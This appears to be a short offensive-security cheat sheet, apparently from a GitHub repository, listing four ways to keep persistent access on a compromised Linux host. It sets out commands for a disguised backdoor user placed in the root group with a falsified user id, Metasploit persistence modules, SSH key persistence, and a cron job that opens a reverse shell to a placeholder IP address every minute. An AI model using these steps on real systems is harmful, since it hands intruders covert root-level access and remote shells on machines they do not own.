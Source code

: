 ## Method 1: Backdoor User
 - Create a backdoor user, in linux systems running ssh
```
useradd -m ftp -s /bin/bash -> or any legitimate service name that doesn't exist on the machine
passwd ftp
usermod -aG root ftp
usermod -u 15 ftp -> change user id to looks older
```

## Method 2: MSF Modules
```
exploit/linux/local/cron_persistence
exploit/linux/local/service_persistence -> important to set target correctly
post/linux/manage/sshkey_persistence -> set createsshfolder true
```

## Method 3: SSH private key
```
ssh-keygen
copy id_rsa
chmod 400 id_rsa
ssh user@IP_ADDRESS -i id_rsa
```

## Method 4: Local Job Scheduling
```
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/IP_ADDRESS/PORT 0>&1'" > cron
crontab -i cron
crontab -l
```